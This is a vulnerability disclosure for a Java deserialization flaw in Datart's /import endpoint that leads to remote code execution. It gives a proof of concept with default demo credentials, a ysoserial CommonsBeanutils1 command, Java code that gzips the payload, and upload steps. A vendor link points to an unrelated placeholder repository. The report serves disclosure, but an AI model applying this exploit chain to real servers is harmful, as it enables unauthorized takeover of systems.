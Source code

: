 ## Title: deserialization Vulnerability in Datart  ≤ 1.0.0-rc.3

**BUG_Author:** gggggggga

**Affected Version:** Datart  ≤ 1.0.0-rc.3

**Vendor:** [Datart GitHub Repository](https://github.com/example/WebAppX)

**Software:** [Datart](https://github.com/running-elephant/datart/)

**Vulnerability Files:**

- `datart.server.service.impl.VizServiceImpl`

## Description:

1. **Deserialization Vulnerability via File Parameter:**

   - In the method `extractModel(MultipartFile file)` located in the service class, the file parameter is directly deserialized without proper validation or sanitization.
   - The method uses `ObjectInputStream` to deserialize the contents of the file, which can be controlled by an attacker. This allows an attacker to send a maliciously crafted file that, when deserialized, can execute arbitrary code on the server (leading to Remote Code Execution).
   - The vulnerability is exposed via the route `POST /import` in the `importViz` method, where the `file` parameter is passed to the `extractModel` method for processing.

2. **Exploiting the Deserialization Vulnerability:**

   - An attacker can exploit this vulnerability by uploading a specially crafted file (e.g., a serialized object) that, when deserialized, triggers the execution of malicious code.
   - The malicious file could potentially allow an attacker to execute arbitrary code, leading to Remote Code Execution (RCE) on the server.

3. **Exploit Steps:**

   **Step 1: Login**
   The attacker must first authenticate by logging in through the application’s login endpoint. For example:

   ```
   POST http://<target-ip>/login
   Username: demo
   Password: 123456
   ```

   **Step 2: Upload the Malicious File**
   Once logged in, the attacker can upload a malicious file to the `/import` endpoint, which is processed by the `importViz` method. The uploaded file is then passed to the `extractModel` method for deserialization:

   ```
   POST http://<target-ip>/import
   Content-Type: multipart/form-data
   File: [malicious file containing a serialized object]
   ```

4. **Example Malicious File:**

   The malicious file should contain a serialized object designed to exploit the deserialization vulnerability, triggering remote code execution when processed by the server.

5. **Verifying the Exploit:**

   If the deserialization is successful and the malicious file is processed, the attacker may gain control over the server and execute arbitrary code, leading to Remote Code Execution (RCE).

## Proof of Concept:

1. Access the login page of the vulnerable application:
   ```
   http://localhost:8080/login
   ```

2. Use the following credentials to attempt login:
   ```
   Username: demo
   Password: 123456
   ```

3. Use ysoserial to generate malicious serialized data:

   ```
   java -jar ysoserial.jar CommonsBeanutils1 "calc" > payload.ser
   ```

4. Use the following script to package `payload.ser` into a `payload.ser.gz` file,This Java code reads the `payload.ser` file from the specified path (`E:\\xxx\\payload.ser`), compresses it using GZIP, and writes the output to `payload.ser.gz`.:

   ```
   public class abc {
       public static void main(String[] args) throws IOException {
           try (FileInputStream fis = new 		   FileInputStream("C:\\xxx\\payload.ser");
                FileOutputStream fos = new FileOutputStream("payload.ser.gz");
                GZIPOutputStream gzipOut = new GZIPOutputStream(fos)) {
               byte[] buffer = new byte[1024];
               int len;
               while ((len = fis.read(buffer)) > 0) {
                   gzipOut.write(buffer, 0, len);
               }
           }
       }
   }
   
   ```

5. upload the evil file payload.ser.gz

![image-20241216231621478](./description/assets/image-20241216231621478-1734362191375-1.png)

Successfully executed the `calc` command, which opens the calculator.

![image-20241216231758863](./description/assets/image-20241216231758863.png)
